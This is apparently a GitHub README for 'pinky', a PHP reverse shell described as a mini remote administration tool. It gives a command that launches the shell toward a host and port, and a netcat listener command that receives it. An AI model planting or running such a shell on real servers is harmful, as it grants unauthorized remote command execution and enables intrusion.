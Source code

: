 ## pinky
### The (reverse) PHP mini RAT

A reverse shell works by the remote computer sending its shell to a specific user, rather than binding it to a port, which would be unreachable in many circumstances. This allows run commands over the remote server.

**pinky** is a minimal php implementantion of a reverse remote administration tool.

### Why?

Truth is there are a lot of implementations out there in other programming languages, but not a good one written in PHP. Most of the code makes use of the **shell_exec** function to execute commands and this is very limited. **pynky** use **proc_open** to pass  input and catch the output to send it through a socket connection.

### How to use it.

All you need is to execute the file: pynky.php using the web browser or within the CLI.

```
$ php pinky.php -a 127.0.0.1 -p 3391 -t tcp
```

**Client**

![pinky client](https://github.com/davidtavarez/pinky/blob/master/screenshots/pinky_client.png?raw=true "Client")

**Server**

![pinky server](https://github.com/davidtavarez/pinky/blob/master/screenshots/pinky_server.png?raw=true "Server")

**URL**

![pinky url](https://github.com/davidtavarez/pinky/blob/master/screenshots/pinky_url.png?raw=true "URL")

### Using netcat (nc) ###

Also you can open the reverse shell with the **nc** command, like this.

```
$ nc -v -n -l -p 3391
```
